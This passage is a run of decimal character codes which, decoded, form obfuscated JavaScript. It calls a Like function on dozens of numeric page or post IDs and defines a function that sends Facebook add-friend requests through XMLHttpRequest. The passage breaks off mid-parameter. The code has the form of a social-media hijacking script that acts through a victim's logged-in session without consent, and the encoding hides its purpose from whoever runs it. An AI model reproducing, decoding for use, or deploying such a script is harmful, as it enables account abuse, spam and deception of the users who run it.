56, 56, 57, 52, 49, 49, 57, 56, 49, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 48, 49, 50, 52, 51, 52, 51, 54, 55, 57, 57, 53, 57, 51, 34, 41, 59, 76, 105, 107, 101, 40, 34, 55, 51, 55, 49, 56, 51, 55, 50, 57, 54, 51, 51, 50, 51, 52, 34, 41, 59, 76, 105, 107, 101, 40, 34, 54, 51, 56, 57, 48, 50, 48, 53, 54, 49, 55, 54, 54, 52, 57, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 49, 51, 55, 56, 48, 53, 51, 50, 48, 54, 53, 49, 57, 50, 34, 41, 59, 76, 105, 107, 101, 40, 34, 55, 49, 55, 57, 55, 55, 50, 52, 49, 53, 54, 54, 56, 53, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 56, 55, 54, 50, 48, 48, 50, 49, 51, 50, 56, 57, 55, 49, 34, 41, 59, 76, 105, 107, 101, 40, 34, 54, 49, 54, 52, 56, 48, 57, 48, 53, 48, 57, 50, 50, 48, 52, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 51, 53, 52, 54, 49, 48, 51, 51, 51, 53, 54, 50, 50, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 52, 54, 56, 57, 54, 55, 53, 53, 53, 50, 56, 52, 49, 52, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 55, 53, 49, 54, 56, 54, 49, 50, 54, 51, 55, 54, 50, 48, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 53, 54, 56, 52, 50, 48, 51, 55, 56, 54, 50, 54, 50, 50, 34, 41, 59, 76, 105, 107, 101, 40, 34, 55, 52, 55, 54, 50, 51, 56, 48, 53, 50, 52, 57, 49, 54, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 56, 49, 55, 57, 56, 51, 48, 53, 51, 48, 51, 56, 49, 53, 34, 41, 59, 76, 105, 107, 101, 40, 34, 56, 49, 54, 49, 52, 54, 55, 55, 56, 52, 49, 50, 52, 57, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 54, 50, 48, 57, 56, 50, 52, 51, 55, 57, 51, 57, 48, 55, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 55, 56, 49, 50, 51, 53, 52, 56, 57, 51, 55, 57, 57, 50, 34, 41, 59, 76, 105, 107, 101, 40, 34, 54, 51, 48, 48, 54, 56, 54, 53, 51, 55, 50, 55, 49, 54, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 56, 51, 48, 50, 53, 54, 56, 56, 52, 53, 53, 51, 51, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 53, 54, 49, 56, 50, 48, 57, 49, 50, 48, 57, 52, 49, 57, 34, 41, 59, 76, 105, 107, 101, 40, 34, 55, 55, 53, 56, 49, 54, 54, 54, 50, 52, 52, 55, 54, 55, 51, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 54, 49, 55, 54, 50, 51, 56, 55, 51, 50, 49, 56, 52, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 56, 54, 51, 57, 50, 57, 55, 52, 55, 56, 56, 50, 52, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 53, 51, 55, 52, 51, 55, 56, 52, 56, 48, 51, 48, 53, 57, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 51, 55, 55, 53, 56, 49, 56, 55, 50, 53, 48, 57, 51, 52, 54, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 49, 53, 49, 52, 50, 51, 49, 50, 48, 54, 54, 50, 57, 52, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 49, 53, 57, 54, 56, 54, 49, 56, 54, 52, 56, 53, 50, 48, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 53, 56, 57, 57, 51, 55, 54, 52, 51, 50, 49, 55, 48, 54, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 49, 55, 48, 48, 49, 52, 51, 53, 48, 56, 54, 51, 50, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 56, 48, 48, 54, 53, 56, 57, 48, 54, 54, 50, 56, 53, 55, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 55, 53, 54, 55, 49, 49, 50, 53, 57, 56, 54, 50, 53, 53, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 49, 54, 48, 50, 56, 52, 48, 56, 53, 57, 50, 52, 50, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 51, 52, 56, 50, 55, 56, 55, 51, 51, 53, 52, 53, 56, 48, 34, 41, 59, 76, 105, 107, 101, 40, 34, 55, 50, 53, 55, 53, 49, 56, 52, 48, 55, 57, 56, 56, 48, 50, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 55, 54, 49, 51, 55, 53, 51, 57, 50, 55, 51, 57, 51, 51, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 55, 48, 57, 56, 55, 54, 49, 54, 51, 57, 56, 49, 52, 53, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 54, 57, 50, 54, 57, 54, 56, 57, 56, 57, 57, 57, 55, 54, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 52, 52, 49, 50, 48, 53, 53, 49, 50, 55, 56, 50, 53, 56, 50, 34, 41, 59, 10, 76, 105, 107, 101, 40, 34, 49, 52, 53, 49, 51, 56, 54, 49, 49, 56, 52, 48, 55, 56, 52, 50, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 51, 54, 48, 52, 49, 52, 51, 51, 50, 52, 49, 54, 51, 49, 34, 41, 59, 76, 105, 107, 101, 40, 34, 51, 55, 55, 52, 57, 56, 51, 55, 53, 55, 50, 52, 48, 55, 57, 34, 41, 59, 76, 105, 107, 101, 40, 34, 52, 51, 48, 55, 51, 54, 56, 56, 55, 48, 50, 54, 50, 48, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 56, 50, 57, 48, 55, 49, 55, 56, 52, 50, 52, 56, 51, 55, 34, 41, 59, 76, 105, 107, 101, 40, 34, 49, 50, 48, 51, 50, 55, 54, 53, 49, 52, 54, 56, 57, 48, 51, 34, 41, 59, 76, 105, 107, 101, 40, 34, 50, 50, 54, 55, 56, 48, 55, 51, 52, 49, 52, 53, 55, 55, 53, 34, 41, 59, 76, 105, 107, 101, 40, 34, 52, 48, 52, 57, 55, 53, 54, 50, 50, 57, 50, 51, 56, 49, 49, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 50, 55, 54, 53, 48, 48, 53, 52, 48, 50, 48, 50, 52, 56, 34, 41, 59, 76, 105, 107, 101, 40, 34, 53, 48, 56, 57, 53, 57, 48, 53, 53, 56, 54, 54, 56, 53, 56, 34, 41, 59, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 73, 68, 83, 40, 114, 41, 123, 118, 97, 114, 32, 88, 61, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 118, 97, 114, 32, 88, 85, 82, 76, 61, 34, 47, 47, 119, 119, 119, 46, 102, 97, 99, 101, 98, 111, 111, 107, 46, 99, 111, 109, 47, 97, 106, 97, 120, 47, 97, 100, 100, 95, 102, 114, 105, 101, 110, 100, 47, 97, 99, 116, 105, 111, 110, 46, 112, 104, 112, 34, 59, 118, 97, 114, 32, 88, 80, 97, 114, 97, 109, 115, 61, 34, 116, 111, 95, 102, 114, 105, 101, 110, 100, 61, 34, 43, 114, 43, 34, 38, 97, 99, 116, 105, 111, 110, 61, 97, 100, 100, 95, 102, 114, 105, 101, 110, 100, 38, 104, 111, 119, 95, 102, 111, 117, 110, 100, 61, 102, 114, 105, 101, 110, 100, 95, 98, 114, 111, 119, 115, 101, 114, 95, 115, 38, 114, 101, 102, 95, 112, 97, 114, 97, 109, 61, 110, 111, 110, 101, 38, 38, 38, 111, 117, 116, 103, 111, 105, 110, 103, 95, 105, 100, 61, 38, 108, 111, 103, 103, 105, 110, 103, 95, 108, 111,
